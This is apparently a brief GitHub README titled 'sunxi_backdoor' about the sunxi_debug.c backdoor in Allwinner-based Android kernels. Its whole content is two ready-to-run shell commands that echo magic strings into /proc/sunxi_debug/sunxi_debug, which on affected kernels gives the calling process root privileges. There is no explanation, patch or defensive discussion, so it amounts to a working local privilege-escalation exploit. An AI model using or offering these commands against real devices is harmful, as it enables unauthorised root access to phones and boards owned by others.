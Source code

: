# sunxi_backdoor
Android sunxi_debug.c backdoor


# CALL THIS FUNCTION
```sh
echo "rootXdevice" > /proc/sunxi_debug/sunxi_debug
```

# CALL FUNCTION ON ALLWINNER DEVICES
```sh
echo "rootmydevice" > /proc/sunxi_debug/sunxi_debug
```

